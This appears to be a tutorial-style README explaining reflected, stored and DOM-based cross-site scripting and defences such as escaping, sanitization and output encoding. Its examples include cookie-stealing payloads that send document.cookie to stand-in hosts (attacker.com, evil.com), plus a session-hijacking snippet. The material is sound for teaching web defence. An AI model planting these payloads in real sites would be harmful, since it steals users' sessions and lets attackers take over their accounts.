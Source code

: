 <h3><u>Cross-Site Scripting (XSS)</u></h3>

These are types of attacks where malicous scripts usually in the form of Javascript are injected into a web application by a innocent end user. This happens because of insecure handling of user input such as the "search bar". There are three types of attacks: 

- <b>Non-persistent (reflected):</b> Attackers would send a user a link by utilizing impersonification, phishing, smishing, or any way to gain trust of the user to click the link. This link would contain malicious Javascript, where once the user performs that HTTP request to the server, the server reflects that HTTP request as a response.  
  
  For example: 

  ```javascript
  https:www.amazon.com/search?q=<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
  ```
    This script would run in back if a user simply sees "amazon.com" which looks normal and the user is most likely using amazon to purchase products. However, once a user clicks the link, it would automatically take them to amazon's search perform the reflected injection: `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>`into the web browser. This would take the users cookies/session ID and send it to the attacker. 

    The cookies/session ID keeps you logged in and server uses it to know who you are. Once the attacker gets a hold of it, they can set their own browser's session to your stolen one: 
    
    ```javascript
    document.cookie = "session_id=abc123xyz";
    ```
    Once set, they can visit the webpage, and they'd be logged in as you. 

- <b>Persistent (stored):</b> This is a bit different where the attacker would also find a vulnerable input field, but one that stores data in a database. Somes fields include the review section on amazon, comments, message forums, etc... This does not require a user to click a link like in non-persistent XSS, a user simply just has to visit the webpage like normal web browsing. 

  An attacker would post a comment along with the malicious script. An example would be:  
  ```javascript
  Great product, it works pretty good! <script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
  ```
    This script is now <b>persistent</b> (stored and stuck there) in the database. Now, when any other user views that product page, the script runs automatically in the victim's web browser and sends session cookies or sensitive information to the attacker's server. 

    A software developer must remediate this or else it is stuck there and is especially dangerous if an admin view its. This is because the attacker can perform actions as the admin and escalate privileges. 

- <b>DOM (Document Object Model) Based XSS:</b> For the other attacks mentions before, the malicious payload is either sent to the server (reflected) or stays in the server (stored). In this case, the malcious payload never reaches the server. This means the server can't detect it, and can't sanitize or filter the user input. The client-side vulnerable JavaScript code would get exploited. Just like reflected XSS, the user must open a specially crafted URl for this attack to occur. 

<hr>

For a XSS to be successful, an attacker just needs to insert and execute malicious content in a webpage, which is why all <b>Variables</b> need to be protected. To do so, we can make sure that they are <b>Escaped</b> or <b>Sanitized</b> which is known as <b>Perfect Injection Resistance</b>. For instance, escaping characters such as `<, >, &, ", '` so the input is not interpreted as executable code or Sanitization which is removing or altering unwanted input so that only 
"safe" content remains such as sanitizing `<b>Hello</b> <script>alert(1)</script>` to only this `<b>Hello</b>`. 

To defend against a XSS attack, there is not one way to solve it, rather a combination of techniques. Luckily, coding frameworks like steer Software developers towards good security coding practices to help reduce XSS attacks, however, security gaps still exist in them. There are a couple of techniques to defend against this: 

- <b>Output Encoding:</b> This protects against Stored and Reflected attacks where the text inserted by the user should not be interpreted as executable code, rather the actual text that the user has typed in. 

  - <b>"HTML Contexts"</b> --> refers to inserting a variable between two basic HTML tags like a `<div>` or `<b>`. In this case, the front end HTML trusts the user input and directly asks the backend for the results. It is important to use `'` and `""` to surround variables which makes it difficult to change the context of the variable. 

    ``` html
    <img src=<%= photoUrl % alt="Profile Picture">   <!-- No quotes in between "photoUrl" insecure-->

    <!-- THE ATTACK! -->
    <script>alert('XSS')</script> <!-- since the above code has not been escaped, the browser is the one that executes the injected code since it interprets it as code. 

    <!-- Rendered HTML Results Page -->
    <p>Results for: <script>alert('XSS')</script></p> <!-- -->

    <!--------------------> 
    <<img src="<%= photoUrl %>" alt="Profile Picture"> <!--Secure since "photourl" has quotes, but rmemember that we need additional security measures on top of this--> 